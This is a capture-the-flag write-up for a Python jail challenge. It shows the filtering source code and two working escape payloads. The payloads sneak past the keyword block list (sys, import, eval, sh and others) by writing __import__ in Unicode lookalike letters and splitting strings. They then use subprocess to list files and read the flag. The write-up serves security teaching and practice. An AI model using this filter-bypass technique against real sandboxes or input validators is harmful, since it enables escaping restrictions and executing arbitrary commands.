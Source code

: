 # escape room (1000 points)

![Alt text](images/image.png)

This challenge is a pyjail challenge wherein we need to jailbreak the python filters. 

From the source code, we can see that it filters the input on run. So we need to bypass it.

```python
import os, sys

def main():
  filter_list = ['sys', 'import', 'flag', 'open', '/', "sh", "bin", 'eval', 'exec', 'os', 'read', 'system']

  print("Please Input your Source code > ")
  user_data = ''
  while True:
    temp = input()
    if(temp == 'EOF'):
      break

    user_data += temp + '\n'

  print(user_data)
  for filter_str in filter_list:
    if filter_str in user_data:
      print("No hack plz!")
      exit(0)

  binary = compile(user_data, '<string>', 'exec')
  
  os.close(0)
  os.close(1)
  exec(binary)

if __name__ == '__main__':
  main()
```

We see that our input code will be compiled from this line of code:
```python
  binary = compile(user_data, '<string>', 'exec')
```
Our code should be in string format (UTF-8).

After compiling, file descriptor stdin and stdout will be closed.
```python
  os.close(0)
  os.close(1)
```

Then the compiled code will be executed.
```python
  exec(binary)
```

Since the `stdin` and `stdout` is closed we cannot print out the flag so  we can use `netcat` to bypass the file descriptor errors. But the only thing that is not closed yet is the `stderr`. So we can print the flag with it.

Here our first payload is to import the `subprocess` and `sys` module. Then we can use the `subprocess.Popen` to execute the `ls` command. Then we can read the output of the `ls` command and print it to the `stderr` of the `sys` module.
```python
subprocess = __𝓲𝓶𝓹𝓸𝓻𝓽__('subprocess')
SSmodule = __𝓲𝓶𝓹𝓸𝓻𝓽__('sy'+'s')

tmp = subprocess.__getattribute__('Po'+'pen')('ls', stdout=subprocess.PIPE).communicate()[0]

print(tmp, file=SSmodule.stderr)
EOF
```

![Alt text](images/image-1.png)

Our payload is working. How does it work? Well, back to the source code. There is no rule implemented in the compiler. So we can decorate our filtered text and will be read as a valid python code.

Our final payload:

```python
subprocess = __𝓲𝓶𝓹𝓸𝓻𝓽__('subprocess')
SSmodule =  __𝓲𝓶𝓹𝓸𝓻𝓽__('sy'+'s')

tmp = subprocess.__getattribute__('Po'+'pen')(['cat', 'home\x2fctf_user\x2ffl'+'ag'], stdout=subprocess.PIPE).communicate()[0]

print(tmp, file=SSmodule.stderr)
EOF
```

![Alt text](images/image-2.png)
